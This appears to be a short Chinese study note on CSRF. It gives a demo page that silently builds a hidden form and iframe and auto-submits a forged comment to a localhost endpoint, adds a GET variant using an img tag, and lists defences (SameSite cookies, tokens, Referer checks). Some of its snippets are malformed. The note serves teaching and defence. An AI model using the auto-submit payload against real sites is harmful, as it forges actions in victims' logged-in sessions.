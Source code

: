 ```yaml
---
title: csrf
type: "categories"
categories: 其他
---
```


# Cross site request forgy 
跨站请求伪造
```
//POST请求
<!doctype html>
<html>
	<head>
		<meta charset="utf-8"/>
		<title>csrf demo</title>
	</head>
	<body>
		hello，这里什么也没有。
		<script>
			document.write(`
				<form name="commentForm" target="csrf" method="post" action="http://localhost:1521/post/addComment">
					<input name="postId" type="hidden" value="11">
					<textarea name="content">来自CSRF！</textarea>
				</form>`
			);

			var iframe = document.createElement('iframe');
			iframe.name = 'csrf';
			iframe.style.display = 'none';
			document.body.appendChild(iframe);

			setTimeout(function(){
				document.querySelector('[name=commentForm]').submit();
			},1000);
		</script>
	</body>
</html>
```
```
//GET请求
	<img src="localhost:8080/ajax/addcomment?postId=233&content=<a href="file://xxx.crsf.html"/>
```
解决方案1：
禁用第三方网站带cookie：same-site属性

解决方案二：
不访问A网站的前端
在前端页面加入验证信息
验证码
token cookie中放个token，html的meta里也放个token，并且token也不能为空，两者一样才验证通过，跨站请求伪造是不通过用户前端页面的，所以拿不到页面里的token，所以验证通过不了
- 假如只有meta里存token会出问题，攻击者提交表单的时候随便伪造一个token就好了，
- 假如token只是保存在cookie里面，攻击者只要拿到cookie就可以了

解决方案3：
通过headers.referer来判断
```
if(!(\^https?:\/\/localhost\).test(headers.referer)) {
	throw new Error('非法请求')
}
```
